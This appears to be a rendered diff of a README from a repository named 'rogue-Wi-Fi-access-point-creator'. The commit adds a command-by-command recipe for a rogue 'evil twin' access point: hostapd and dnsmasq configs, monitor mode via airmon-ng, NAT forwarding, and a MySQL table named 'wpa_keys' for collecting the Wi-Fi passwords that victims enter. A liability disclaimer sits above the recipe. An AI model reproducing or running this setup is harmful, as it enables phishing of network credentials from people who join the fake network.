

Before and after one commit to 63n713m4n/rogue-Wi-Fi-access-point-creator, a Markdown page: README.md, the part around the change printed below. Shown: that part at 83% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -52,3 +52,76 @@ To the maximum extent permitted by applicable law, I and/or affiliates from whom
 👉 (i) your access to this resource and/or inability to access this resource;
 👉 (ii) any conduct or content of any third party referenced by this resource, including, any offensive or illegal conduct or other users or third parties;
 👉 (iii) any content obtained from this resource or any of its resources
+
+
+
+
+FOLLOW THIS Commands
+ # --- Preparing ---:
+
+	apt-get update
+
+	apt-get install hostapd dnsmasq apache2
+
+	airmon-ng start wlan0
+
+	mkdir ~/fap
+
+	cd ~/fap
+
+	nano hostapd.conf
+
+ # Instructions for hostapd.conf:
+
+interface=[INTERFACE NAME]
+driver=nl80211
+ssid=[WiFi NAME]
+hw_mode=g
+channel=8
+macaddr_acl=0
+ignore_broadcast_ssid=0
+
+	nano dnsmasq.conf
+
+ # Instructions for dnsmasq.conf:
+
+interface=[INTERFACE NAME]
+dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
+dhcp-option=3, 192.168.1.1
+dhcp-option=6, 192.168.1.1
+server=8.8.8.8
+log-queries
+log-dhcp
+listen-address=127.0.0.1
+
+ # Routing table and gateway:
+
+	ifconfig wlan0mon up 192.168.1.1 netmask 255.255.255.0
+	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
+
+ # Internet access:
+
+	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
+	iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
+	echo 1 > /proc/sys/net/ipv4/ip_forward
+
+ # mysql database:
+
+	service mysql start
+
+	mysql
+
+	create database fap;
+
+	create user fapuser;
+
+	grant all on rogueap.* to 'fapuser'@'localhost' identified by 'fappassword';
+
+	use fap;
+
+	create table wpa_keys(password1 varchar(40), password2 varchar(40));
+
+	ALTER DATABASE fap CHARACTER SET 'utf8';
+
+	select * from wpa_keys;
+
```
Also changed, not shown: other parts of README.md (+20 -0 lines).
